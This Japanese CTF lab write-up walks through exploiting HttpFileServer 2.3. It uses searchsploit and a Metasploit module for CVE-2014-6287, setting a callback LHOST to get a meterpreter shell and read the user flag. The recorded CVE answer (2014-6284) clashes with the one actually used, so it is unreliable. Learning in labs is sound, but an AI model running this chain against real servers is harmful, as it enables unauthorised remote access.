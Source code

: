 ### Q：このファイルサーバーを悪用するためのCVE番号は何か
#### 実施コマンド
```bash
searchsploit HttpFileServer 2.3
```
#### 説　明
- `searchsploit`で探索
- ヒットした`Exploit Title`を当てに`EXPLOIT DATABASE`で検索しヒット  

#### 解　答
`2014-6284`  
  
![image](https://github.com/y-uoh/THM/assets/169203901/60171acc-e6e6-42bf-a58a-4235a0d08a9f)  
-> 当てを付けるために検索。必要ないか？  
  
![image](https://github.com/y-uoh/THM/assets/169203901/74c518e5-595b-41cc-87e5-264672cde271)  
![image](https://github.com/y-uoh/THM/assets/169203901/aeb24bc4-7211-4cd3-9006-2a14e87813f9)  
-> 一件ヒットし、内容を確認してCVE取得

### Q：Metasploitを使用して初期アクセスを獲得する。ユーザフラグは何か
#### 実施コマンド
```bash
msfconsole -q
search cve:2014-6287
use 0
options
set RHOSTS 10.10.221.130
set RPORT 8080
set TARGETURI http://10.10.221.130:8080
set LHOST 10.9.0.83
run
meterpriter > shell
where /R  \ *.txt
type C:\users\bill\desktop\user.txt
```
#### 説　明
- `msfconsole -q`
  - Metasploit起動
- `search cve:2014-6287`
  - `search`でエクスプロイトを検索
  - `cve:`オプションは、CVE検索
- `use 0`
  - ひとつしかないので、それを選択
- `options`
  - 設定内容を確認、設定
  - `set RHOSTS 10.10.221.130` -> ターゲットのIPを指定
  - `set RPORT 8080` -> ターゲットのポートを指定
  - `set TARGETURI http://10.10.221.130:8080` -> ターゲットのURIを指定
  - `set LHOST 10.9.0.83` -> 自分のIPを指定
- `run`
  - 実　行
- `meterpriter > shell`
  - 探索方法が`where`コマンドしか思いつかなかったので、shellに移行
  - `meterpriter`でも`search`コマンドを使えば、検索できることは他の人の`write up`を見て知った。
    - `meterpriter > search -f *.txt`
      - 全ディレクトリを再帰的に探索する
      - `-f` -> ファイル探索
      - `*.txt` -> ワイルドカード使用で、`.txt`の付くファイルを探索
- `where /R  \ *.txt`
  - `where`コマンドで全ディレクトリを探索
- `type C:\users\bill\desktop\user.txt`